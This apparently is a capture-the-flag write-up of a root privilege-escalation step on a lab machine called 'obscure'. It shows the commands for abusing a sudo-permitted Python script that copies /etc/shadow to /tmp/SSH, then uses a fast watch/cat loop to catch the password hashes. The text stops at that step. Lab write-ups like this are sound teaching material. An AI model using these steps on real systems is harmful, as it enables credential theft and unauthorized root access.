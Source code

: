
██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Sudo -l shows that we can run the script BetterSSH.py as sudo.
    robert@obscure:/tmp/SSH$ sudo -l
      Matching Defaults entries for robert on obscure:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

      User robert may run the following commands on obscure:
      (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py

2. Running the script we can see that it tries to create a temporary file to /tmp/SSH/RANDOM-NAME and compare it to /etc/shadow

    Running without sudo shows we don't have permissions to /etc/shadow
      robert@obscure:/tmp$ /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
      Enter username: root
      Enter password: root
        Traceback (most recent call last):
          File "/home/robert/BetterSSH/BetterSSH.py", line 15, in <module>
            with open('/etc/shadow', 'r') as f:
        PermissionError: [Errno 13] Permission denied: '/etc/shadow'

    Running as sudo the file/dir doesn't exist
      robert@obscure:/tmp$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
      Enter username: root
      Enter password: root
        Traceback (most recent call last):
          File "/home/robert/BetterSSH/BetterSSH.py", line 24, in <module>
            with open('/tmp/SSH/'+path, 'w') as f:
        FileNotFoundError: [Errno 2] No such file or directory: '/tmp/SSH/NeXWO4w1'

    Create the dir /tmp/SSH and run the script again with sudo
      robert@obscure:/tmp$ mkdir /tmp/SSH
      robert@obscure:/tmp$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
      Enter username: root
      Enter password: root
        Incorrect pass

3. We need a way to grab the temporary created file from /tmp/SSH to get the hashes from /etc/shadow.
   Using the watch command with timer 0.1 seconds (-n 0) we can see that the file is created and removed.

   robert@obscure:/tmp/SSH$ watch -cd -n 0 cat /tmp/SSH/*
